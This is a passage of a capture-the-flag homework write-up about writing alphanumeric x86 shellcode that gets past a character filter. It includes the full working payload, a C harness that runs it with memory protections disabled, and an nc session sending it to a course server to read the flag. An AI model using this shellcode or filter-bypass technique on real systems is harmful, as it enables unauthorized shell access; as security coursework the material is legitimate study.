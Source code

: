 Make a test in C.

```
int main (void) {
    char shellcode[] = "PYj0X40PPPPQPaJRX4DRj0ZRZ0DV1ZRX502C05r9qOPTY01A01RX500D15cFZCPTY01RYAQX540D15ZFXcPTYA01A01RYAQX50C005XlRYPRYAQX5CC005llCXPRYAQX5AA105plcXPTYA01Tx";
    (*(void  (*)()) shellcode)();
}
```

Looks fine.

```

$ gcc -m32 -fno-stack-protector -z execstack a.c
$ ./a.out
sh-4.3$ exit
```


## capture the flag

```
$ nc secprog.cs.nctu.edu.tw 20001
Welcome to AlphaNumeric Shellcode executor!
You can only use 0-9 A-Z a-z.
"BINSH" and "binsh" are filter out.

Please input your shellcode: PYj0X40PPPPQPaJRX4DRj0ZRZ0DV1ZRX502C05r9qOPTY01A01RX500D15cFZCPTY01RYAQX540D15ZFXcPTYA01A01RYAQX50C005XlRYPRYAQX5CC005llCXPRYAQX5AA105plcXPTYA01Tx
cat /home/alnum/flag
SECPROG{IncredibleASMProgrammer}
```

## lessons learned

Writing asm codes is pretty fun (read: painful)!

I use several tools help me do the job, including gdb/xxd/odjdump and [5].

This homework made me learn more about x86 asm code, thanks!



## Reference

1. [Alphanumeric/x86 printable opcodes](http://skypher.com/wiki/index.php?title=Hacking/Shellcode/Alphanumeric/x86_printable_opcodes)
2. [x86 alphanumeric shellcode encoderを書いてみる](http://inaz2.hatenablog.com/entry/2014/07/13/025626)
3. [Alpha3](https://code.google.com/p/alpha3/)
4. [x86 alphanumeric shellcodeを書いてみる](http://inaz2.hatenablog.com/entry/2014/07/11/004655)
5. [Defuse online x86/x64 assembler](https://defuse.ca/online-x86-assembler.htm)

